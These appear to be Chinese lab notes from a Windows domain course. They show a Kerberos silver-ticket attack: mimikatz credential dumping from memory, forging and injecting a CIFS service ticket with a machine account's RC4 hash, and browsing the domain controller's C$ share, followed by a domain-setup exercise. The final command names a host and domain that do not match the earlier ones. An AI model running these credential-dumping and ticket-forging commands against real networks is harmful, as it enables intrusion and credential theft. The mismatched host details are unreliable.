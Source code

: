 #### 白银票据实现

> 条件：获取到目标服务机器的hash

##### 获取域SID

```bash
whoami /user
```

- mimikatz查看票据：kerberos:list
- mimikatz清空票据：kerberos:purge

##### 获取hash值

```bash
privilege::debug
sekurlsa::logonpasswords
```

![image-20241102173906554](https://image.201068.xyz/assets/9.域环境搭建/image-20241102173906554.png)

##### 找到机器账户DC01的hash值

![image-20241102173934811](https://image.201068.xyz/assets/9.域环境搭建/image-20241102173934811.png)

##### 生成白银票据	

生成白银票据写入内存并查看

```bash
kerberos::golden /user:lisi /domain:wasj.test /sid:S-1-5-21-1555841673-700802396-2860917582 /target:DC01.wasj.test /service:cifs /rc4:a32e7817d5eb55529c5fc9989a44ceec /ptt
```

![image-20241102174100269](https://image.201068.xyz/assets/9.域环境搭建/image-20241102174100269.png)

查看域内DC01的C盘文件，client02通过dir命令，资源管理器能够访问域内DC01文件

```bash
dir \\DOC01.tangsshan.com\c$
```

![image-20241102174149948](https://image.201068.xyz/assets/9.域环境搭建/image-20241102174149948.png)

## 06.练习

### 1.搭建域控服务器

建立一台**域控服务器**，其他人加入域控服务器

![image-20241102144042801](https://image.201068.xyz/assets/9.域环境搭建/image-20241102144042801.png)

![image-20241102144019535](https://image.201068.xyz/assets/9.域环境搭建/image-20241102144019535.png)

![image-20241102163237445](https://image.201068.xyz/assets/9.域环境搭建/image-20241102163237445.png)
